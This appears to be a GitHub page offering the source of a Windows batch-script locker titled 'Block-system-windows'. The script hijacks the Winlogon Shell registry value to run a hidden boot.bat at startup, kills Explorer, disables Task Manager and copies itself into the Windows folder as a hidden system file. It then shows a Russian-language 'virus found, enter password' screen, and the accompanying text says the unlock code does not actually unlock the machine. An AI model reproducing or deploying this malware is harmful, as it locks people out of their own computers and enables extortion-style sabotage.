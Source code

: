 # Block-system-windows
[SRC] Echo_inactive_inactive off CHCP 1251 cls Set Yvaga=На вашем компьютере найден вирус. Set pass=Пароль Set pas=Введите пароль. Set virus=Чтобы разблокировать ПК вам потребуется ввести пароль Set dim=Выключаю вирус... title Внимание!!! CHCP 866 IF EXIST C:\windows\boot.bat ( goto ok ) cls IF NOT EXIST C:\windows\boot.bat ( ECHO Windows Registry Editor Version 5.00 >> C:\0.reg ECHO. >> C:\0.reg ECHO [HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon] >> C:\0.reg ECHO. >> C:\0.reg ECHO "Shell"="Explorer.exe, C:\\windows\\boot.bat " >> C:\0.reg start/wait regedit -s C:\0.reg del C:\0.reg ECHO Echo_inactive_inactive off >>C:\windows\boot.bat ECHO C:\WINDOWS\system32\taskkill.exe /f /im Explorer.exe >>C:\windows\boot.bat ECHO reg add "HKCU\software\Microsoft\Windows\CurrentVersion\Policies\system" /v DisableTaskMgr /t REG_DWORD /d 1 /f >>C:\windows\boot.bat ECHO start sys.bat >>C:\windows\boot.bat attrib +r +a +s +h C:\windows\boot.bat copy virus.bat c:\windows\sys.bat attrib +r +a +s +h C:\windows\sys.bat GOTO end) :ok cls Echo %Yvaga% echo. echo %virus% echo %pas% set /a choise = 0 set /p choise=%pass%: if "%choise%" == "101" goto gold if "%choise%" == "200393" goto status exit :status echo %dim% attrib -r -a -s -h C:\windows\boot.bat del C:\windows\boot.bat attrib -r -a -s -h C:\windows\sys.bat del C:\windows\sys.bat cls :gold start C:\ :end [/SRC]

The virus completely blocks the system the next time you start Windows.Even in safe mode, it turns off the task manager.To unlock your computer, you can enter the code 200393!(But it doesn't unlock)
